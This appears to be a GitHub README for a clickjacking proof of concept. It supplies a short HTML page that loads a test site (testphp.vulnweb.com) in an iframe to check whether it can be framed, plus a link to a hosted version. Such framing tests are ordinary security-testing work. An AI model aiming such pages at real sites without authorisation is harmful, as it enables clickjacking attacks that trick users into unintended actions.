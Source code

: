 # PoC:1 Clickjacking Vulnerability

**Description:**
This repository hosts a professional Proof of Concept (PoC) showcasing the Clickjacking vulnerability in web applications. Clickjacking represents a significant security concern, allowing unauthorized manipulation of user interactions and data access.

- Save code with .html extension.
- Change with your URL want to test.
  
```html 
<html>
<title>Click Jacking</title>
<meta name="author" content="m14r41">
<head></head>
<body>
    <font color="white" size="30">
        <h2 style="font-weight: bold; color: black">Clickjacking Vulnerability Poc</h2>
        <p style="font-weight: bold; color: rgb(146, 83, 83)">This vulnerability presents a security risk, allowing for potential manipulation</br> of user interactions and unauthorized data access without user consent.</p>
        <iframe src="http://testphp.vulnweb.com/" width="70%" height="70%"></iframe>
</body>
</html>
```

---

![image](https://github.com/m14r41/Clickjacking-Poc/assets/95265573/42fd8f35-bd40-480e-87a1-fafc8392ab21)

## PoC:2 Online Poc
> https://clickjacking.m14r41.in/

![image](https://github.com/user-attachments/assets/96a93f3b-0a38-48b8-97e2-ccf5aeb27cfc)


**Features:**

- A clear title explaining the repository's purpose.
- A concise explanation of Clickjacking vulnerability.
- Inclusion of an `<iframe>` element demonstrating a common Clickjacking vector.

**By:** [m14r41](https://github.com/m14r41)
